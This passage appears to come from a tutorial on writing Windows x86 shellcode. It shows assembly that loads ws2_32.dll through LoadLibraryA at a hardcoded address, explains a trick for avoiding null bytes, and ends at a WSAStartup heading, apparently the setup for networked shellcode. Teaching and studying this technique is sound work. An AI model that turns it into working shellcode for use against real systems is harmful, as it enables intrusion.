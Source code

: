 ## System call: LoadLibraryA

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya">https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya</a>

Syntax:
```
LoadLibraryA(_In_ LPCTSTR lpFileName)
```

This system call loads a DLL file into the memory. It takes one argument, which is the name of the file.

```assembly
xor eax, eax        ; Clear eax
mov ax, 0x3233      ; Store string "32" in AX (explanation below)
push eax            ; Push string "32\0\0" on stack
push 0x5f327377     ; Push string "ws2_" on stack
push esp            ; Push addr of "ws2_32\0\0" on stack, which will be the lpFileName argument
mov eax, 0x7c801d7b ; Address to LoadLibraryA()
call eax
```

A trick was used here to insert null bytes to terminate the "ws2_32" string, without actually writing a null byte.
The `mov ax, 0x3233` operation stores the string "32" in the lowest 16 bits of EAX. The highest 16 bits are filled with 0x00 (due to the previous `xor eax, eax` operation). This will nicely terminate the string without us needing to hardcode a null byte in the code. If we would have done the following instead, it would have broken the shellcode:

Assembly:
```assembly
push 0x00003233 "32\0\0"
push 0x5f327377 "ws2_"
```

Notice the nulls in pure hex bytes:
```
6833320000687773325F
```

This LoadLibraryA() system call is very straight forward. The stack looks like the following before `call eax`, where a pointer to the filename string is on the top of the stack, as the first and only argument:

```
   Addr        Value
   00000001    00000002 -----------------
-> 00000002    00003233 (ASCII 32\0)    |
|  00000003    5f327377 (ASCII ws2_)    |
|                                       |
-----------------------------------------
```

## System call: WSAStartup
